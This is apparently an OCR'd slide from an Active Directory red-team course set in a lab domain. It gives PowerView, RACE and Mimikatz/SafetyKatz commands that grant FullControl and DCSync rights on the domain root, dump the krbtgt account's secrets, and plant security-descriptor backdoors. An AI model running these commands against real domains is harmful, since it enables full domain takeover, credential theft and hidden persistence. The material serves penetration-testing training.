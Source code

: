 • There are even more interesting ACLs which can be abused.
• For example, with DA privileges, the ACL for the domain root can be
modified to provide useful rights like FullControl or the ability to run
"DCSync".

Add FullControl rights:

```
Add-DomainObjectAcl -TargetIdentity
"dc=us,dc=techcorp,dc=local" -PrincipalIdentity
studentuser1 -Rights All -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -
Verbose
```

Using ActiveDirectory Module and RACE:

```
Set-ADACL -SamAccountName studentuser1 -
DistinguishedName 'DC=us,DC=techcorp,DC=local' -Right
GenericAll -Verbose
```

Add rights for DCSync:

```
Add-DomainObjectAcl -TargetIdentity
"dc=us,dc=techcorp,dc=local" -PrincipalIdentity
studentuser1 -Rights DCSync -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -
Verbose
```

Using ActiveDirectory Module and RACE:

```
Set-ADACL -SamAccountName studentuser1 -
DistinguishedName 'DC=us,DC=techcorp,DC=local' -
GUIDRight DCSync -Verbose
```

Execute DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync
/user:us\krbtgt"'
```

or 

```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```


#### ACLs – Security Descriptors

• It is possible to modify Security Descriptors (security information like
Owner, primary group, DACL and SACL) of multiple remote access
methods (securable objects) to allow access to non-admin users.
• Administrative privileges are required for this.
• It, of course, works as a very useful and impactful backdoor mechanism.
